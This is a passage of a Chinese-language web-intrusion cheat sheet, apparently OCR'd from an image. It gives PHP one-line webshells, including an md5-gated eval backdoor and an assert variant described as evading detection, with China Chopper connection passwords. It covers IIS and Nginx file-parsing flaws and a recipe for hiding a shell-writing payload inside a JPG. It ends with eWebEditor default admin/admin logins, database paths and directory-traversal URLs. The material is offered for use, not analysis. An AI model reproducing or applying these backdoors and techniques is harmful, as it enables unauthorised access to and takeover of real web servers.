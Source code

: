 <?php substr(md5($_REQUEST[‘x’]),28)==’acd0’&&eval($_REQUEST[‘c’]);?> 菜刀连接：/x.php?x=lostwolf 脚本类型：php 密码：c

<?php assert($_REQUEST[“c”]);?> 菜刀连接 躲避检测 密码：c
 
 
### 0x04 解析漏洞总结
 
IIS 6.0

目录解析：/xx.asp/xx.jpg xx.jpg可替换为任意文本文件(e.g. xx.txt)，文本内容为后门代码

IIS6.0 会将 xx.jpg 解析为 asp 文件。

后缀解析：/xx.asp;.jpg /xx.asp:.jpg(此处需抓包修改文件名)

IIS6.0 都会把此类后缀文件成功解析为 asp 文件。

默认解析：/xx.asa /xx.cer /xx.cdx

IIS6.0 默认的可执行文件除了 asp 还包含这三种

此处可联系利用目录解析漏洞 /xx.asa/xx.jpg 或 /xx.cer/xx.jpg 或 xx.asa;.jpg

IIS 7.0/ IIS 7.5/ Nginx <8.03

在默认Fast-CGI开启状况下,在一个文件路径(/xx.jpg)后面加上/xx.php会将 /xx.jpg/xx.php 解析为 php 文件。

常用利用方法： 将一张图和一个写入后门代码的文本文件合并 将恶意文本写入图片的二进制代码之后，避免破坏图片文件头和尾

e.g.

copy xx.jpg/b + yy.txt/a xy.jpg

/b 即二进制[binary]模式

/a 即ascii模式 xx.jpg正常图片文件

yy.txt 内容 <?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>

意思为写入一个内容为 <?php eval($_POST[cmd])?> 名称为shell.php的文件

找个地方上传 xy.jpg ,然后找到 xy.jpg 的地址，在地址后加上 /xx.php 即可执行恶意文本。

.然后就在图片目录下生成一句话木马 shell.php 密码 cmd
 
 
0x05 ewebeditor编辑器
 
默认后台：ewebeditor/admin_login.asp

帐号密码：admin admin

样式设计：ewebeditor/admin_style.asp

查看版本：ewebeditor/dialog/about.html

数据库路径：db/ewebeditor.mdb db/%23ewebeditor.mdb db/%23ewebeditor.asp ewebeditor/db/!@#ewebeditor.asp (用谷歌语法找文件名)

遍历目录：ewebeditor/admin/upload.asp?id=16&amp;d_viewmode=&amp;dir =../..

跳转目录：ewebeditor/admin_uoloadfile.asp？id=14&dir=.. (dir为列目录, ..为返回上层目录)，形式:dir ../..

点上传文件管理-随便选择一个样式目录，得到：ewindoweditor/admin_uoloadfile.asp?id=14 在id=14后面加&dir=../../../.. 就可看到整个网站的文件了(../自己加减)

